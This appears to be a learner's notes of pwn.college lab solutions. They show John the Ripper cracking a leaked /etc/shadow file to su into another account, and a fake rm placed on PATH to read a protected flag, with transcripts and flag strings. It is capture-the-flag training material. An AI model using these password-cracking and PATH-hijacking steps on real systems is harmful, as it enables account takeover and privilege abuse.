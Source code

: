     When you input a password into su, it one-way-encrypts (hashes) it and compares the result against the stored value. If the result matches, su grants you access to the user!

    But what if you don't know the password? If you have the hashed value of the password, you can crack it! Even though /etc/shadow is, by default, only readable by root, leaks can happen! For example, backups are often stored, unencrypted and insufficiently protected, on file servers, and this has led to countless data disclosures.

    If a hacker gets their hands on a leaked /etc/shadow, they can start cracking passwords and wreaking havoc. The cracking can be done via the famous John the Ripper, as so:

    hacker@dojo:~$ john ./my-leaked-shadow-file
    Loaded 1 password hash (crypt, generic crypt(3) [?/64])
    Will run 32 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    password1337      (zardus)
    1g 0:00:00:22 3/3 0.04528g/s 10509p/s 10509c/s 10509C/s lykys..lank
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    hacker@dojo:~$
    Here, John the Ripper cracked Zardus' leaked password hash to find the real value of password1337. Poor Zardus!

    This level simulates this story, giving you a leak of /etc/shadow (in /challenge/shadow-leak). Crack it (this could take a few minutes), su to zardus, and run /challenge/run to get the flag!

    - my solution:
    hacker@users~cracking-passwords:~$ john --show /challenge/shadow-leak
    hacker:NO PASSWORD:20209:0:99999:7:::
    zardus:aardvark:20245:0:99999:7:::

    2 password hashes cracked, 0 left
    hacker@users~cracking-passwords:~$ su zardus
    Password: 
    zardus@users~cracking-passwords:/home/hacker$ /challenge/run
    Congratulations, you have become Zardus! Here is your flag:
    pwn.college{o4JtnuF_WvCSyR-xmoEq2BEp5Su.QX3UDN1wiNxQjMyEzW}

Pondering PATH
5. Hijacking commands

    Armed with your knowledge, you can now carry out some shenanigans. This challenge is almost the same as the first challenge in this module. Again, this challenge will delete the flag using the rm command. But unlike before, it will not print anything out for you.

    How can you solve this? You know that rm is searched for in the directories listed in the PATH variable. You have experience creating the win command when the previous challenge needed it. What else can you create?

    - my solution:
    hacker@path~hijacking-commands:~$ echo $PATH
    /nix/store/l0h2dpifg7hpl6yirs5z3k8zd2wddyv3-code-server/libexec/code-server/lib/vscode/bin/remote-cli:/run/challenge/bin:/run/workspace/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    hacker@path~hijacking-commands:~$ chmod a+x rm
    hacker@path~hijacking-commands:~$ ls -l rm
    -rwxr-xr-x 1 hacker hacker 18 Jun  9 02:18 rm
    hacker@path~hijacking-commands:~$ PATH="/home/hacke“”
    > ^C
    hacker@path~hijacking-commands:~$ PATH="/home/hacker"
    hacker@path~hijacking-commands:~$ /challenge/run
    bash: sed: command not found
    Trying to remove /flag...
    pwn.college{0xn9mJ-zSMKoePNnyBhVMSbhlUy.QX3cjM1wiNxQjMyEzW}
    hacker@path~hijacking-commands:~$ 
    - /home/hacker/rm:
        /usr/bin/cat /flag

